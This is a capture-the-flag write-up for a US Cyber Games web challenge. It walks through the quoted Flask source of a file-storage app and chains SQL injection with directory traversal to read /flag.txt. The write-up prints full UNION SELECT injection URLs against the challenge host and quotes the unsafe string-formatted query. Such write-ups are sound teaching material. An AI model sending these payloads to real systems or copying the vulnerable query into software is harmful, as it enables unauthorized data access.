


# Web: Secure File Storage (477)

The new USCG file storage server has a lot of cool security features to keep you and your sensitive files safe! It seems pretty impossible to exploit...or is it?

[http://storage.challs.uscybergames.com](http://storage.challs.uscybergames.com)

Author: [tsuto](https://github.com/jselliott)

Luckily, we are given the source code for this web challenge!

First, we can see a flag.txt file (not the real flag) in the root directory. And in our Dockerfile, we can see that the flag is in the root directory.

```dockerfile
# Copy flag
COPY flag.txt /flag.txt

# Protect flag
RUN chmod 444 /flag.txt
```

And we can also see in config.py that the default upload folder is `/app/uploads`.

```py
    UPLOAD_FOLDER = "/app/uploads"
```

In database.py, we also see an interesting function...

```py
def fetch_file_db(user_id,file_id):
    try:
        file = db.session.execute(text(f"SELECT * FROM File WHERE id = {file_id}")).first()
        if file:
            filepath = decrypt(file.filepath)
            filename = decrypt(file.filename)
            if file.user_id == user_id and filepath is not None and filename is not None:
                return {"id":file.id,"filepath":filepath.decode(),"filename":filename.decode(),"title":file.title, "encrypted":file.encrypted}
        return False
    except Exception as e:
        logging.error(e)
        return False
```

Using `db.session.execute` makes this very likely to be vulnerable to SQL injection!

Also, we can find the schema for the file table.

```py
class File(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, nullable=False)
    title = db.Column(db.String(256), nullable=False)
    filename = db.Column(db.String(256), nullable=False)
    filepath = db.Column(db.String(256), nullable=False)
    encrypted = db.Column(db.Integer, nullable=False)
```

This tells us that there is an id, user_id that created the file, title of the file, a filename, a file path, and an integer telling if it was encrypted or not.

In api.py, we can see where this is referenced:

```py
@api.route('/files/download/<file_id>', methods=['GET'])
@isAuthenticated
def download_file(file_id,user):

    if not file_id:
        flash('No file ID provided.',"danger")
        return redirect("/files")
    
    file = fetch_file_db(user["id"],file_id)

    if not file:
        flash('Invalid file provided, or you may not have permission to view this file.',"danger")
        return redirect("/files")
    
    if file["encrypted"]:
        content = open(os.path.join(file["filepath"],file["filename"]),"rb").read()
        F = BytesIO(decrypt(content))
    else:
        F = open(os.path.join(file["filepath"],file["filename"]),"rb")

    return send_file(F, as_attachment=True, download_name=file["filename"])
```

So, it is very likely that there is SQL injection possible in the file downloading endpoint. Also, since this just opens the path from combining the filepath and filename, we might even have directory traversal!

So, we will want to use a filepath of `../../` to traverse back to the root directory and a filename of `flag.txt` to get `/flag.txt`. However, there is a problem...

This is the file upload code:
```py
@api.route('/files/upload', methods=['POST'])
@isAuthenticated
def upload_file(user):

    file = request.files.get("file")
    title = request.form.get("title")

    if not file or file.filename == "":
        flash('You must select a file to upload.',"danger")
        return redirect("/files")
    
    if not title or title == "":
        flash('You must enter a title for your file.',"danger")
        return redirect("/files")
    
    if not allowed_file(file.filename):
        flash(f'The following filetypes are allowed: [{",".join(app.config["ALLOWED_EXTENSIONS"])}]',"danger")
        return redirect("/files")
    
    filename = secure_filename(file.filename)
    filepath = os.path.join(app.config['UPLOAD_FOLDER'],user["username"])
    file.save(os.path.join(filepath,filename))

    #Read and encrypt file contents
    F = open(os.path.join(filepath,filename),"rb")
    content = encrypt(F.read())
    F.close()

    # Write encrypted contents
    F = open(os.path.join(filepath,filename),"wb")
    F.write(content)
    F.close()

    insert_file_db(user["id"],filepath,filename,title)

    flash('File uploaded successfully!',"success")
    return redirect("/files")
```

Notably, the file name is first secured and then encrypted. This is also why the `fetch_file_db` function decrypts the file path and name. But also the file contents are encrypted by default. And since we can control whether or not the file is encrypted through the SQL injection, we can use this to find the encrypted version of our path to then inject.

First, we'll need to make a file, `flag.txt` to upload, containing the contents `../../`.  With this, we can use the file name of this file and use the encrypted contents as the path.

Then, we upload this file.



Now, we can see our file here.



Hovering over the download icon, we can copy the link and find that the link to the file is `http://storage.challs.uscybergames.com/api/files/download/46989`.

This last number is the ID of the file.

Now, if we go to `http://storage.challs.uscybergames.com/api/files/download/-1%20union%20select%20id,%20user_id,%20title,%20filename,%20filepath,%200%20from%20File%20where%20id%20=%2046989`, we can get the encrypted filepath.

And our path is `iweP1EvL0nIplO0HchSf3w0p5kmRFkpjmdKnhjveHbQ=`. 

And if we go to `http://storage.challs.uscybergames.com/api/files/download/-1%20union%20select%20id,%20user_id,%20title,%20filename,%20'iweP1EvL0nIplO0HchSf3w0p5kmRFkpjmdKnhjveHbQ=',%200%20from%20File%20where%20id%20=%2046989`, we can get the flag!

When we do this, we get a downloaded file, containing the flag, `SIVUSCG{b1t_fl1pp3d_f1l3s}`!